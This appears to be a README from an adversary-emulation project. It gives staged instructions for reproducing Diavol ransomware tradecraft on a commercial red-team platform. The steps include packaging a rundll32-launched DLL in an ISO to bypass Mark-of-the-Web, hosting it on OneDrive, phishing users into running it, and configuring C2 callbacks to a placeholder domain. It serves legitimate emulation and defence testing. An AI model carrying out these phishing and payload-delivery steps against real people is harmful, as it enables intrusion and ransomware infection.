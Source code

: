 ## Diavol Ransomware
The CTI for this threat comes from https://thedfirreport.com/2021/12/13/diavol-ransomware/ and is further explained in our #ThreatThursday blog series: https://www.scythe.io/library/adversary-emulation-diavol-ransomware-threatthursday

### DiavolStage0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Diavol/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/Diavol
4. Create a new campaign `DiavolStage0` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
5. Import from Existing Threat: DiavolStage0
6. Launch the Campaign
7. Download payload in DLL format setting the entry-point to `BasicScore`
8. Save the DLL as `SharedFiles.dll`
9. Start Stage 1 and 2 before execution
11. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system
12. Put the SCYTHE DLL in the Folder2Iso of the working directory
13. In the Folder2Iso directory, create a shortcut called `Documents` and set the `Target` to: `C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore`
14. Open a Windows command prompt and cd to the working directory
15. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\new-documents-2005.iso" "Diavol" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it
16. Zip the ISO and call it `new-documents-2005.zip`
17. Upload the zip file to Microsoft OneDrive and copy the link
18. Send a phishing email with the link to the Microsoft OneDrive zip file
19. If the end user downloads the ZIP and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.

### DiavolStage1
1. Create a new campaign `DiavolStage1` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage1
3. Launch the Campaign
4. Download payload in EXE format and save it as `DiavolStage1.exe`
5. Upload the `DiavolStage1.exe` to the VFS under VFS:/shared/threats/Diavol

### DiavolStage2
1. Create a new campaign `DiavolStage2` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage2 or create any automation you would like to execute
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `EnterDll`
5. Save the DLL as `tfpkuengdlu.dll`
6. Upload the `tfpkuengdlu.dll` to the VFS under VFS:/shared/threats/Diavol
